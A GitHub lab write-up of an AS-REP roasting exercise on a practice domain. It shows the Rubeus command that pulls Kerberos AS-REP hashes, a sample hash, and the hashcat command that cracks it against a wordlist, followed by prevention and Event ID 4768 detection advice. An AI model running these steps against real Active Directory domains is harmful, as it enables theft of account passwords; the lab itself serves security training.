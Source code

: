 # AS-REProasting Lab

## Objective

Perform a AS-REProasting attack on the Windows 10 machine and obtain crackable hashes, find the user account 'svc-iam' then crack password on Kali Linux.
Connect to DC1 and investigate Event Manager to find the attack. 

## What is Kerberoasting

The AS-REProasting attack is similar to the Kerberoasting attack; we can obtain crackable hashes for user accounts that have the property Do not require Kerberos preauthentication enabled. The success of this attack depends on the strength of the user account password that we will crack.

## Skills Learned
- Run a AS-REProasting attack
- Filtering the Windows Event Viewer logs
- Cracking spn.txt files with John The Ripper and Hashcat

## Tools Used
- Windows Event Log
- John The Ripper
- Hashcat
- Rubeus
- Powershell
- Kali Linux

## Steps

First we need to RDP over to our WIN10 machine and perform the AS-REProasting attack. I will be using Rubeus for this attack.

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```
![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/97415255-a4d8-4b43-b6ed-4fd0857a0fae)

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f99d943e-91bd-447b-8f93-347f72ebe310)

Now we have our file to crack we need to get this file back over to our Kali box. 

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$ we can edit the file usim Vim on the kali command line. 

```
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/962602f8-05a3-455e-b311-ea4664341b78)

We can now run this file trough hashcat

```
sudo hashcat -m 18200 -a 0 asrep.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/465e6765-7ec9-4287-8cc7-d2c897dc1225)

Once hashcat cracks the password, we can print the contents of the output file to obtain the cleartext password

```
sudo cat asrepcrack.txt
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f611dd48-cad7-4cae-9ec0-f8810a76f226)


## Prevention

The success of attacks on users with "Do not require Kerberos preauthentication" depends on password strength. This property should be used only when necessary, and accounts should be reviewed quarterly to ensure it isn't improperly assigned. Regular user accounts with this property often have weaker passwords, making them easier targets than service accounts with SPNs. To protect these users, a separate password policy requiring at least 20 characters should be enforced to prevent cracking attempts.

## Detection

### HoneyPot

A honeypot user is an effective detection tool in AD environments, as any login attempts for this unused account are likely malicious and warrant inspection. However, if it's the only account with "Kerberos Pre-Authentication not required," advanced threat actors might identify it as a honeypot and avoid it. To create an effective honeypot user, ensure the account is old and appears unused, with service account passwords ideally over two years old and regular user passwords less than one year old. The account should have logins after the password change and possess some privileges to make it an attractive target for attackers.

### Investigate

When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/6a25dc6c-c2b1-421e-9927-d9e29cda4283)

AD generates this event for every Kerberos authentication, resulting in a high volume of logs. However, the source of authentication can be tracked, allowing correlation of known good logins against potential malicious activities. While inspecting specific IP addresses can be challenging, especially if users move between office locations, scrutinizing the specific VLAN and alerting on any deviations can be effective.



